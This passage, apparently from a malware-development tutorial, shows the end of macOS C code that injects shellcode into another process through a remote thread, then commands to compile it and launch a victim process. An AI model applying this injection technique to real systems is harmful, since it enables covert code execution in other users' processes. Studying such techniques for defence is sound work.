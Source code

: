 ```cpp
    state_count,
    &thread);

  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] thread_create_running failed: %s\n", mach_error_string(kr));
    return 1;
  }

  printf("[+] remote thread created at RIP=0x%llx, RSP=0x%llx\n", state.__rip, state.__rsp);
  printf("[+] shellcode running in PID %d via new thread.\n", pid);

  return 0;
}
```

### demo 2

Let's go to see second example in action.     

Compile it:    

```bash
clang -o hack2 hack2.c
```

![malware](/assets/images/174/2025-08-21_17-46.png){:class="img-responsive"}    

Run victim process:    

```bash
./meow
```

![malware](/assets/images/174/2025-08-21_17-46_1.png){:class="img-responsive"}    
